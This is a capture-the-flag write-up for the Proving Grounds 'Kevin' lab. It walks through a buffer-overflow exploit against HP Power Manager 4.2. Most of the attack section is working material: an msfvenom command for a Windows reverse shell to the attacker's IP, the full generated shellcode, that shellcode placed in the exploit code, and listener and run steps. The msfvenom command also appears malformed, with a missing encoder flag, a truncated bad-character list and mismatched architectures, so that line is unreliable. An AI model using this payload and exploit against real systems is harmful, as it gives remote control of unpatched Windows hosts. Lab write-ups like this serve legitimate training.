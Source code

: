 ```yaml
---
title: "Proving grounds Practice: Kevin"
layout: post
date: 2023-08-28 01:00
categories: writeup
---
```


Proving grounds Practice - Kevin CTF writeup.

## Nmap

```sh
Nmap
PORT      STATE SERVICE            VERSION
80/tcp    open  http               GoAhead WebServer
|_http-server-header: GoAhead-Webs
| http-title: HP Power Manager
|_Requested resource was http://192.168.174.45/index.asp
| http-methods: 
|_  Supported Methods: GET HEAD
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Ultimate N 7600 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
3573/tcp  open  tag-ups-1?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
```

## PORT : 80 : Web

HP Power Manager 4.2 (Build 7)

![img](/assets/images/CTF/Proving_Grounds/Kevin/web.png)

HP Power Manager 4.2 (Build 7) is vulnerable to [Buffer Overflow Attack](https://www.exploit-db.com/exploits/10099).

## Exploitation

Download the [Exploit](https://www.exploit-db.com/exploits/10099) from exploitDB.

Create a shellcode using `tun0` IP and local PORT to listen for reverse connection.

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.156 LPORT=443  EXITFUNC=thread -b '\x00\x1a\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5' x64/alpha_mixed --platform windows -f c
```

**Generated Buffer**

```text
"\x31\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
"\x0e\x93\x99\xf7\xc4\x83\xee\xfc\xe2\xf4\x6f\x71\x75\xc4"
"\x93\x99\x97\x4d\x76\xa8\x37\xa0\x18\xc9\xc7\x4f\xc1\x95"
"\x7c\x96\x87\x12\x85\xec\x9c\x2e\xbd\xe2\xa2\x66\x5b\xf8"
"\xf2\xe5\xf5\xe8\xb3\x58\x38\xc9\x92\x5e\x15\x36\xc1\xce"
"\x7c\x96\x83\x12\xbd\xf8\x18\xd5\xe6\xbc\x70\xd1\xf6\x15"
"\xc2\x12\xae\xe4\x92\x4a\x7c\x8d\x8b\x7a\xcd\x8d\x18\xad"
"\x7c\xc5\x45\xa8\x08\x68\x52\x56\xfa\xc5\x54\xa1\x17\xb1"
"\x65\x9a\x8a\x3c\xa8\xe4\xd3\xb1\x77\xc1\x7c\x9c\xb7\x98"
"\x24\xa2\x18\x95\xbc\x4f\xcb\x85\xf6\x17\x18\x9d\x7c\xc5"
"\x43\x10\xb3\xe0\xb7\xc2\xac\xa5\xca\xc3\xa6\x3b\x73\xc6"
"\xa8\x9e\x18\x8b\x1c\x49\xce\xf1\xc4\xf6\x93\x99\x9f\xb3"
"\xe0\xab\xa8\x90\xfb\xd5\x80\xe2\x94\x66\x22\x7c\x03\x98"
"\xf7\xc4\xba\x5d\xa3\x94\xfb\xb0\x77\xaf\x93\x66\x22\x94"
"\xc3\xc9\xa7\x84\xc3\xd9\xa7\xac\x79\x96\x28\x24\x6c\x4c"
"\x60\xae\x96\xf1\x37\x6c\xbe\x05\x9f\xc6\x93\x98\x4c\x4d"
"\x75\xf3\xe7\x92\xc4\xf1\x6e\x61\xe7\xf8\x08\x11\x16\x59"
"\x83\xc8\x6c\xd7\xff\xb1\x7f\xf1\x07\x71\x31\xcf\x08\x11"
"\xfb\xfa\x9a\xa0\x93\x10\x14\x93\xc4\xce\xc6\x32\xf9\x8b"
"\xae\x92\x71\x64\x91\x03\xd7\xbd\xcb\xc5\x92\x14\xb3\xe0"
"\x83\x5f\xf7\x80\xc7\xc9\xa1\x92\xc5\xdf\xa1\x8a\xc5\xcf"
"\xa4\x92\xfb\xe0\x3b\xfb\x15\x66\x22\x4d\x73\xd7\xa1\x82"
"\x6c\xa9\x9f\xcc\x14\x84\x97\x3b\x46\x22\x17\xd9\xb9\x93"
"\x9f\x62\x06\x24\x6a\x3b\x46\xa5\xf1\xb8\x99\x19\x0c\x24"
"\xe6\x9c\x4c\x83\x80\xeb\x98\xae\x93\xca\x08\x11"
```

Replace the above buffer values in the exploit code.

```python
SHELL = (
"n00bn00b"
"\x31\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
"\x0e\x93\x99\xf7\xc4\x83\xee\xfc\xe2\xf4\x6f\x71\x75\xc4"
"\x93\x99\x97\x4d\x76\xa8\x37\xa0\x18\xc9\xc7\x4f\xc1\x95"
"\x7c\x96\x87\x12\x85\xec\x9c\x2e\xbd\xe2\xa2\x66\x5b\xf8"
"\xf2\xe5\xf5\xe8\xb3\x58\x38\xc9\x92\x5e\x15\x36\xc1\xce"
"\x7c\x96\x83\x12\xbd\xf8\x18\xd5\xe6\xbc\x70\xd1\xf6\x15"
"\xc2\x12\xae\xe4\x92\x4a\x7c\x8d\x8b\x7a\xcd\x8d\x18\xad"
"\x7c\xc5\x45\xa8\x08\x68\x52\x56\xfa\xc5\x54\xa1\x17\xb1"
"\x65\x9a\x8a\x3c\xa8\xe4\xd3\xb1\x77\xc1\x7c\x9c\xb7\x98"
"\x24\xa2\x18\x95\xbc\x4f\xcb\x85\xf6\x17\x18\x9d\x7c\xc5"
"\x43\x10\xb3\xe0\xb7\xc2\xac\xa5\xca\xc3\xa6\x3b\x73\xc6"
"\xa8\x9e\x18\x8b\x1c\x49\xce\xf1\xc4\xf6\x93\x99\x9f\xb3"
"\xe0\xab\xa8\x90\xfb\xd5\x80\xe2\x94\x66\x22\x7c\x03\x98"
"\xf7\xc4\xba\x5d\xa3\x94\xfb\xb0\x77\xaf\x93\x66\x22\x94"
"\xc3\xc9\xa7\x84\xc3\xd9\xa7\xac\x79\x96\x28\x24\x6c\x4c"
"\x60\xae\x96\xf1\x37\x6c\xbe\x05\x9f\xc6\x93\x98\x4c\x4d"
"\x75\xf3\xe7\x92\xc4\xf1\x6e\x61\xe7\xf8\x08\x11\x16\x59"
"\x83\xc8\x6c\xd7\xff\xb1\x7f\xf1\x07\x71\x31\xcf\x08\x11"
"\xfb\xfa\x9a\xa0\x93\x10\x14\x93\xc4\xce\xc6\x32\xf9\x8b"
"\xae\x92\x71\x64\x91\x03\xd7\xbd\xcb\xc5\x92\x14\xb3\xe0"
"\x83\x5f\xf7\x80\xc7\xc9\xa1\x92\xc5\xdf\xa1\x8a\xc5\xcf"
"\xa4\x92\xfb\xe0\x3b\xfb\x15\x66\x22\x4d\x73\xd7\xa1\x82"
"\x6c\xa9\x9f\xcc\x14\x84\x97\x3b\x46\x22\x17\xd9\xb9\x93"
"\x9f\x62\x06\x24\x6a\x3b\x46\xa5\xf1\xb8\x99\x19\x0c\x24"
"\xe6\x9c\x4c\x83\x80\xeb\x98\xae\x93\xca\x08\x11")
```

Run netcat listerner on the PORT which was used in the above payload.

Run the exploit using `python2` and the reverse connetion will be obtained in few seconds.

![img](/assets/images/CTF/Proving_Grounds/Kevin/shell.png)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).